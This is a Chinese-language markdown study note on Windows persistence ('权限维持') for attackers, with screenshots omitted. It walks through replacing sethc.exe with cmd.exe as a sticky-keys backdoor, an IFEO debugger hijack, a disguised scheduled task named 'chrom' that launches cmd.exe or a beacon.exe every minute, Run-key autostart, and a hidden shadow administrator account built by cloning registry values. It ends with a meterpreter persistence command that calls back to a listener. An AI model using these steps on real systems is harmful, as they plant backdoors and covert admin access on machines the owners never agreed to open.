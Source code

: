 # Windows权限维持

### 五次粘滞键

1. 需要对sethc.exe有操作权限

   ![image-20220719015509754](..\img\Windows权限维持\image-20220719015509754.png)

![image-20220719020412533](..\img\Windows权限维持\image-20220719020412533.png)



2. 修改原本粘滞键 sethc.exe ：  renmae sethc.exe sethc.exe.bak

![image-20220719020701149](..\img\Windows权限维持\image-20220719020701149.png)



3. 复制cmd.exe 到 sethc.exe  : copy cmd.exe sethc.exe

![image-20220719020838093](..\img\Windows权限维持\image-20220719020838093.png)



4. 在登录页面或windows任意页面按五次shift键即可打开cmd窗口

   ![image-20220719021054003](..\img\Windows权限维持\image-20220719021054003.png)



### 镜像劫持（修改原本程序的启动路径或软件）IFEO

- 注册表：HKEY_LOCAL_MACHINE/SOFTWARE/Microsoft/Windows NT/CurrentVersion/Image File Execution Options

1. 打开注册表 HKEY_LOCAL_MACHINE/SOFTWARE/Microsoft/Windows NT/CurrentVersion/Image File Execution Options

   ![image-20220719022646520](..\img\Windows权限维持\image-20220719022646520.png)

   

2. 添加项  (要和想劫持的文件名 一样) sethc.exe

   ![image-20220719022819455](..\img\Windows权限维持\image-20220719022819455.png)

   

3. 添加字符串 debugger , 添加值  C:\windows\system32\cmd.exe

   ![image-20220719022947580](..\img\Windows权限维持\image-20220719022947580.png)

   

4. 此时粘滞键变为cmd.exe

   ![image-20220719023849460](..\img\Windows权限维持\image-20220719023849460.png)



### 计划任务 schtasks  （win7 之前是at）

- 设置计划任务打开cmd：

  - schtasks /create /tn "chrom" /tr cmd.exe /sc minute /mo 1

    ![image-20220719024840259](..\img\Windows权限维持\image-20220719024840259.png)

    

- 设置计划任务打开beacon.exe
  - schtasks /create /tn "chrom" /tr beacon.exe /sc minute /mo 1

### 开机自启动

- HKEY_LOCAL_MACHINE/SOFTWARE/Microsoft/Windows/CurrentVersion/Run

  ![image-20220719025412829](..\img\Windows权限维持\image-20220719025412829.png)

  

  ![image-20220719025626053](..\img\Windows权限维持\image-20220719025626053.png)

### 影子账户 ，隐藏账户

1. 创建隐藏用户

   net user aaa$ 123123 /add

   ![image-20220719025958767](..\img\Windows权限维持\image-20220719025958767.png)

   

2. 注册表 （默认看不了，要修改权限）

   ![image-20220719030736203](..\img\Windows权限维持\image-20220719030736203.png)

   ![image-20220719030825993](..\img\Windows权限维持\image-20220719030825993.png)



3. 复制administrator用户对应的Users项的F值粘贴到 aaa$ 用户对应的Users项的F值

   ![image-20220719031107976](..\img\Windows权限维持\image-20220719031107976.png)



4. 导出 Names 中 aaa$ 项，和 Users 中 aaa$ 对应项

   ![image-20220719031315628](..\img\Windows权限维持\image-20220719031315628.png)

5. 删除用户net user aaa$ /del![image-20220719031450459](..\img\Windows权限维持\image-20220719031450459.png)

   ![image-20220719031615113](..\img\Windows权限维持\image-20220719031615113.png)

6. 双击第四步保存的两个reg文件，导入注册表，生成影子账户

   ![image-20220719031738027](..\img\Windows权限维持\image-20220719031738027.png)

### **meterpreter 权限维持**

- 自启动	

meterpreter >  run persistence -U -i 10 -p 6666 -r 127.0.0.1

设置开机自启，自动连接 127.0.0.1 的 6666 端口，反弹meterpreter （不稳定且已弃用）





